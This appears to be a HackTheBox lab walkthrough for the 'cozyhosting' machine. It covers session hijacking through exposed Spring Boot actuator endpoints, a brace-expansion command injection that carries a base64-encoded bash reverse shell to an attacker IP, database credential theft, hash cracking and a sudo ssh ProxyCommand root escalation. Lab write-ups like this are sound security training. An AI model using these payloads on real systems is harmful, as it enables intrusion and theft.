


# cozyhosting — HackTheBox Walkthrough

**Platform:** HackTheBox
**Difficulty:** Easy
**OS:** Linux

---

## TL;DR

Directory fuzzing reveals exposed Spring Boot Actuator endpoints → Accessing `/actuator/sessions` leaks an active session cookie (JSESSIONID) for the user `kanderson` → Session hijacking grants access to the admin dashboard → A feature on the dashboard is vulnerable to Command Injection; bypassing whitespace filters using brace expansion allows executing a reverse shell → Analyzing a `.jar` file on the system yields PostgreSQL database credentials → Dumping the database reveals a hash for the user `admin` (`machesterunited`) → Password reuse allows `su josh` → `josh` can run `ssh` as root via `sudo`, which is exploited using GTFOBins to gain a `root` shell.

---

## Enumeration

Full nmap scan:

```bash
nmap -sC -sV -p- -n -Pn --min-rate=9018 10.10.11.230
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 8.9p1 Ubuntu |
| 80 | HTTP | nginx 1.18.0 (Ubuntu) |

Nmap shows HTTP traffic redirecting to `http://cozyhosting.htb`. We add this to our `/etc/hosts` file.
Navigating to the site reveals a static hosting provider landing page. There is a "Login" button that leads to `/login`, but default credentials do not work.



Intentionally triggering a 404 error by visiting a non-existent page reveals a "Whitelabel Error Page", confirming the backend application is built with **Java Spring Boot**.

We use `gobuster` along with a Spring Boot-specific wordlist from SecLists to look for exposed debugging endpoints:

```bash
gobuster dir -u http://cozyhosting.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt
```

Gobuster discovers several critical exposed endpoints under the `/actuator/` directory:
- `/actuator/env`
- `/actuator/mappings`
- `/actuator/sessions`

---

## Exploitation — Spring Boot Session Hijacking & Command Injection

Navigating to `http://cozyhosting.htb/actuator/sessions`, the application leaks active user session IDs in JSON format:

```json
{"UNAUTHENTICATED":["..."],"kanderson":["<LEAKED_JSESSIONID>"]}
```

We copy the `JSESSIONID` associated with the user `kanderson`. 
In our browser, we navigate to `http://cozyhosting.htb/login`, open the Developer Tools (Storage -> Cookies), and replace our current `JSESSIONID` cookie value with kanderson's token.

Refresh the page, and the "Login" button changes to an "Admin" dashboard link. We have successfully hijacked an administrative session.

On the admin dashboard, there is a "Connection Settings" feature that allows the user to specify a hostname and a username to presumably test SSH connectivity. 

Intercepting the request in Burp Suite, we test the `username` field for Command Injection by appending commands after a semicolon (`;`). The application appears to filter spaces.

To bypass the space filter, we use **brace expansion** and `base64` encoding. We craft a standard bash reverse shell payload, base64 encode it, and construct a payload that decodes and executes it without using spaces:

Base64 Payload: `YmFzaCAtaSA1PD4gL2Rldi90Y3AvMTAuMTAuMTQuMTAvNjk2OSAwPCY1ICAxPiY1ICAyPiY1`

Injection Payload:
```bash
;{echo,-n,YmFzaCAtaSA1PD4gL2Rldi90Y3AvMTAuMTAuMTQuMTAvNjk2OSAwPCY1ICAxPiY1ICAyPiY1}|{base64,-d}|bash;
```

We start a Netcat listener (`nc -lnvp 6969`) and URL-encode the payload via Burp Suite before sending the request:

```http
POST /executessh HTTP/1.1
...
host=127.0.0.1&username=;{echo,-n,YmFzaCA...}|{base64,-d}|bash;
```

The application executes our command. Our Netcat listener catches the shell. We have initial access as the `app` user.

---

## Privilege Escalation — Database Dumping & GTFOBins (SSH)

As the `app` user, we explore the application directory and locate the compiled Spring Boot application: `cloudhosting-0.0.1.jar`.

We transfer the JAR file to our attacking machine and unzip it to inspect the source code and configuration files:

```bash
unzip cloudhosting-0.0.1.jar
cat BOOT-INF/classes/application.properties
```

The `application.properties` file contains hardcoded credentials for a local PostgreSQL database:

```ini
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR  
```

We use these credentials to connect to the PostgreSQL database from our shell on the target machine:

```bash
psql -h localhost -U postgres
# Enter Password: Vg&nvzAQ7XxR
```

Inside the database (`\c cozyhosting`), we query the `users` table (`select * from users;`) and recover two BCrypt password hashes:

- `kanderson`
- `admin : $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm`



We copy the `admin` hash and crack it offline using Hashcat:

```bash
hashcat -m 3200 admin.hash /usr/share/wordlists/rockyou.txt
```

The hash cracks to: `machesterunited`.

Viewing the `/etc/passwd` file on the target, there is no `admin` user, but there is a user named `josh`. We attempt password reuse:

```bash
su josh
# Password: machesterunited
```

The authentication is successful. 

We immediately check `josh`'s sudo privileges:

```bash
sudo -l
```

The output indicates that `josh` can run the `ssh` command as root without a password. 

According to GTFOBins, the `ssh` binary can be abused to spawn an interactive root shell by invoking the `ProxyCommand` option.

We execute the GTFOBins payload:

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

The command breaks out of the SSH context and drops us into a root shell.

We are `root`. 🎉

---

## Key Takeaways

- **Spring Boot Actuators:** Leaving Spring Boot `/actuator` endpoints unauthenticated is a critical misconfiguration. The `/sessions` endpoint leaks live authentication tokens, while others like `/env` or `/heapdump` can leak database credentials and API keys.
- **Command Injection Bypasses:** Input filters blocking spaces can be trivially bypassed in bash using brace expansion (e.g., `{echo,hello,world}`) or the `$IFS` environment variable.
- **Sudo Executables:** Allowing `sudo` execution on complex binaries like `ssh`, `tar`, or `find` that have secondary command-execution capabilities (like `ProxyCommand`) is equivalent to granting full root access.

---

*Thanks for reading! Follow for more HackTheBox walkthrough content.*